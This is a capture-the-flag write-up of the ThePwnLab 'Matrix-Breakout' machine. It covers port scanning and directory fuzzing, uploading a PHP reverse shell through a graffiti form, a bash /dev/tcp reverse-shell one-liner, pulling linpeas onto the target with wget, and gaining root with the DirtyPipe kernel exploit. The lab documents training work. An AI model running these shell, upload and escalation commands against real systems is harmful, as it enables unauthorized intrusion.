# Matrix-Breakout

## General Information

<h3>Difficulty:  </h3>

<h3>Operation System:Linux </h3>

<h3>Exploited vulnerability. File upload and escalation of privilege</h3>

<h3>Date Resolution: 23/06/2025</h3>

<h3>Link: <a href="https://thepwnlab.es/maquinas/Matrix-Breakout" target="_blank">Matrix-Breakout</a></h3>

### *Read this document in spanish* <a href="matrix-breakout.md">Matrix-Breakout</a>

## Recognition

ThePwnLab provides us with the IP of the target machine **target_ip**

## Scanning for open ports

### TCP port scanning

The command we will always use with nmap is:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn <ip de la máquina objetivo>
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version                |
| --------- | ------- | ---------------------- |
| 22        | ssh     | OpenSSH 8.4p1 Debian 5 |
| 80        | http    | Apache httpd 2.4.51    |
| 81        | http    | nginx 1.18.0           |

</div>

## Exploration

Accessing the URL I find the following:

```
http://<ipMaquinaObjetivo>/
```

<p align="center"> 

</p>

I access port 81, it asks me for credentials

```
http://<ipMaquinaObjetivo>:81/
```

<p align="center"> 

</p>

### Fuzzing web

```
dirsearch -u http://<ipObjetivo>  
```

<p align="center"> 

</p>

I visit the path **/robots.txt**

<p align="center"> 

</p>

He says nothing, to keep searching, I'll try another command.

```
gobuster dir -u http://10.0.0.71/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

We have found two new paths

```
http://<ip_objetivo>/graffiti.txt
```

<p align="center"> 

</p>

```
http://<ip_objetivo>/graffiti.php
```

<p align="center"> 

</p>

## Exploitation

In burp suite we go to **Proxy** - **Intercept** - **Intercept on**

<p align="center"> 

</p>

On the page, go to **settings** - **search engine (proxy)** - **Manual proxy configuration**

Now send a message to **http://<TargetIP>/graffiti.php**

<p align="center"> 

</p>

Burp suite has intercepted the information and we sent it to Repeater

<p align="center"> 

</p>

We can try to upload some malicious file, we use a template that Kali already has, we locate it using this command:

```
locate reverse_shell
```

<p align="center"> 

</p>

Then, we copy this file to our root with the following command:

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse.php
```

We will only focus on changing this:

```
$ip = '10.10.0.92';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```

<p align="center"> 

</p>

Returning to burp suite, in **message** we copy all the contents of **reverse.php** with the **ip** and **port** that we are going to use and in **file** we add the name with the .php extension, for example **archivo1.php**

To check the IP there are two ways

**1º form:**

```
ip a
```

<p align="center"> 

</p>

**2º form:**

```
https://thepwnlab.es/settings/vpn
```

<p align="center"> 

</p>

In burp suite, we hit **send** and it should give us the **HTPP 200 OK**

<p align="center"> 

</p>

we deactivate **proxy** - **Intercept** - **Intercept off**

<p align="center"> 

</p>

First, we activate the listening port with this command:

```
nc -lvnp 4444
```

Then, we activate the newly uploaded file:

```
10.0.0.76/archivo1.php
```

<p align="center"> 

</p>

Remember in the browser in **settings** - **proxy** - **no proxy** (Disable proxy)

<p align="center"> 

</p>

### We need to get a more stable connection

Therefore, in another terminal, we activate the listening port:

```
sudo nc -lvnp 4445
```

Then, in the recently opened session, we enter this command:

```
bash -c "sh -i >& /dev/tcp/10.10.0.92/4445 0>&1"
```
#### TTY

```
script /dev/null -c bash
```

**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

<p align="center"> 

</p>

To get the **first flag** we would have to be in the root, we would do the following command:

```
ls
```

<p align="center"> 

</p>

In my case, the **Flag.txt** was bugged and didn't appear. I had to ask the lab owner, and I finally got it. Perhaps, when you get to this point, the flag will be somewhere else or still be in the same place.

To get the **second flag**, we would have to perform a privilege escalation.

## Post-Exploitation

### Privilege Escalation

#### First Form:

```
sudo -l
```

<p align="center"> 

</p>

No sirvió.

#### Second Form:

```
find / -perm -4000 2>/dev/null
```

La pagina que visitamos para ver las vulnerabilidades es https://gtfobins.github.io

**No nos funciono nada**

#### Third form

```
uname -r
```

<p align="center"> 

</p>

We searched for information on the Internet and found the following:

<p align="center"> 

</p>

We found information about privilege escalation (DirtyPipe) CVE-2022-0847 explains the vulnerability in detail.

#### Fourth Form

Another way is using **linpeas.sh**, if you don't know what it is, this page explains it and helps you install it. <a href="https://keepcoding.io/blog/que-es-linpeas-y-como-funciona/" target="_blank">What is Linpeas and how does it work?</a>

Anyway, here are the commands for installing and running it.

Download the script to your Kali:

```
sudo curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
```

Then we share our file with this command:

```
python -m http.server 80
```

<p align="center"> 

</p>

Then we go to **the target machine** in the following path, with the objective that it allows us to download files:

```
cd tmp/
```

I run the following commands:

```
wget http://10.10.0.92/linpeas.sh
```

<p align="center"> 

</p>

Assign execution permissions:

```
chmod +x linpeas.sh
```

Run the script:

```
./linpeas.sh >> infome.txt
```

We will get a fairly extensive report, but we will only focus on this:

<p align="center"> 

</p>

Then on my attacking machine I downloaded dirtypipez.c but **the script didn't work for me.**

I continue searching on the internet, and I find the following page: <a href="https://hackers-arise.com/privilege-escalation-the-dirty-pipe-exploit-to-escalate-privileges-on-linux-systems/" target="_blank">Privilege Escalation with Dirty Pipe</a>

<p align="center"> 

</p>

I download it on my kali attacker machine.

```
sudo git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
```

<p align="center"> 

</p>

I would focus on these two files:

<p align="center"> 

</p>

I share this folder with this command:

```
python -m http.server 80
```

Then on my target machine located in the **/tmp** folder with the **wget** command I bring the files.

<p align="center"> 

</p>

We give execution permission to both files:

```
chmod +x compile.sh 
chmod +x exploit-1.c
```

We execute the files:

```
./compile.sh
```

<p align="center"> 

</p>

```
./exploit-1 
```

<p align="center"> 

</p>

Here we confirm that root has passed the password to **piped**.

```
su root
whoami
```

<p align="center"> 

</p>

```
cd /root
cat FLAG.txt
```

<p align="center"> 

</p>

**Finished Machine!!**

## Conclusion

In my humble opinion, this machine has been quite complex for me. First, using **burp suite** and uploading a file with the .php extension to get the **reverse shell** was very helpful for reviewing. Then, regarding **privilege escalation**, I had to do a lot of research and discovered a tool called **linpeas** that generates a complete report of the operating system you're using. It turns out this tool is used in CTF challenges, so I'll definitely start using it starting with this machine. Finally, with this machine, I discovered a new privilege escalation vulnerability called **DirtyPipe**, which in my case was used to edit the **/etc/passwd** file, changing the **root** password to **piper**.
It's only affected on **Linux versions 5.8 and later**.

**Chat GPT tells me that this machine is above the requirements for the ejptv2 certificate**.